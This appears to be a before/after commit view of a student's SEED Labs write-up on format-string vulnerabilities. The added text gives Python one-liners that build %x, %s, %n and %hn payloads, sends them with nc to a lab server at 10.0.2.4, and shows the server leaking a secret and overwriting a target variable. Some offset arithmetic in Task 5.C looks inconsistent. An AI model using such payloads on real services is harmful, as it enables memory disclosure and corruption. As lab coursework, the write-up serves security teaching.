

Before and after one commit to li-xin-yi/seedlab, a Markdown page: Format-String-Vulnerability/README.MD, the part around the change printed below. Shown: that part at 95% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
redo format

````diff
--- a/Format-String-Vulnerability/README.MD
+++ b/Format-String-Vulnerability/README.MD
@@ -68,19 +90,71 @@ The server will print an error message (`Segmentation fault`) and exit.
 
 ## Task 4 A
 
-send a long `%x.` series. The server prints
+```
+python -c 'print "%9$8x"' > badfile
+nc -u 10.0.2.4  < badfile
+```
 
 ```
-0.64.b7fff918.804a014.b7fe97a2.b7fffad0.bffff0e0.1.bffff038.
+The ebp value inside myprintf() is: 0xbffff038
+bffff038
+The value of the 'target' variable (after): 0x11223344
 ```
 `bffff038` is the address of `ebp` in `myprintf`.
 
 ## Task 4 B
 
 ```bash
-python -c 'print "\x30\xee\xff\xbf%24$s"' > badfile
+python -c 'print "\x70\x88\x04\x08%80$s"' > badfile
 nc -u 10.0.2.4 9090 < badfile
 ```
 
-python -c 'print "\x08\x04\x88\x70%24$s"' > badfile
-0xbfffee30
+And the server gives info:
+
+```
+The ebp value inside myprintf() is: 0xbffff038
+... secret message
+The value of the 'target' variable (after): 0x11223344
+```
+
+# Task 5
+
+## Task 5.A
+
+```
+python -c 'print "\x44\xa0\x04\x08%80$n"' > badfile
+nc -u 10.0.2.4 9090 < badfile
+```
+
+```
+The ebp value inside myprintf() is: 0xbffff038
+...
+The value of the 'target' variable (after): 0x00000004
+```
+
+## Task 5.B
+
+0x500 - 0x4 = 0x4FC = 1276
+```
+python -c 'print "\x44\xa0\x04\x08%1276x%80$n"' > badfile
+nc -u 10.0.2.4 9090 < badfile
+```
+
+```
+The ebp value inside myprintf() is: 0xbffff038
+...
+0
+The value of the 'target' variable (after): 0x00000500
+```
+
+# Task 5.C
+
+0x0000 = 0x10000
+0x10000 - 0x8 = 0xFFF8 = 65528
+0xFF99 - 0x10000 = 0x1FF99 - 0x10000 = 0xFF99 = 65433
+
+```
+python -c 'print "\x44\xa0\x04\x08\x46\xa0\x04\x08%65425x%80$hn%103x%80$hn"' > badfile
+nc -u 10.0.2.4 9090 < badfile
+```
+
````
Also changed, not shown: other parts of Format-String-Vulnerability/README.MD (+33 -4 lines), Format-String-Vulnerability/ff9900.png (added), 2 other files.
